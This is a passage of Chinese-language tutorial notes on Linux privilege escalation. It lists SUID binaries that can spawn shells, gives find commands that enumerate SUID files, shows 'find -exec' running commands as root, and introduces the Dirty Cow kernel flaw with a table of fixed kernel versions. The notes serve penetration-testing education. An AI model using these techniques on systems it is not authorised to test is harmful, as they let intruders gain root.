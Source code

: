 程序在运行的时候被赋予了 root 权限，是程序在运行过程中受到了 suid root 权限的执行过程导致。`chmod u+s` 赋予了 suid， `u-s`删除 suid。

### 复现

Linux 提权一般上传至`/temp/`目录下，因为关机就会清空，且该目录一般具有读写权限。使用探针探测是否有 SUID，利用特定 SUID 进行提权。

可以用于产生shell的程序：

* Nmap
* Vim
* find
* Bash
* More
* Less
* Nano
* cp

以下命令可以发现系统上运行的所有 SUID 可执行文件：

```sh
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

![](/images/微信图片_20220824231612.png)

以 root 执行命令：

```sh
touch test
find test -exec id \;
```

![](/images/微信图片_20220824231831.png)

## 脏牛漏洞提权

### 原理

脏牛（Dirty Cow）是 Linux 内核的一个提权漏洞，攻击者可以利用这个漏洞获取 root 权限。之所以叫 Dirty Cow，因为这个漏洞利用了 Linux 的 copy-on-write 机制。脏牛的 CVE 编号是 CVE-2016-5195。

::: info 影响版本

以下是主流发行版修复之后的内核版本，如果你的内核版本低于列表里的版本，表示还存在脏牛漏洞。

:::

```sh
Centos7 /RHEL7    3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10         4.8.0-26.28
Ubuntu 16.04         4.4.0-45.66
Ubuntu 14.04         3.13.0-100.147
Debian 8                3.16.36-1+deb8u2
Debian 7                3.2.82-1
```
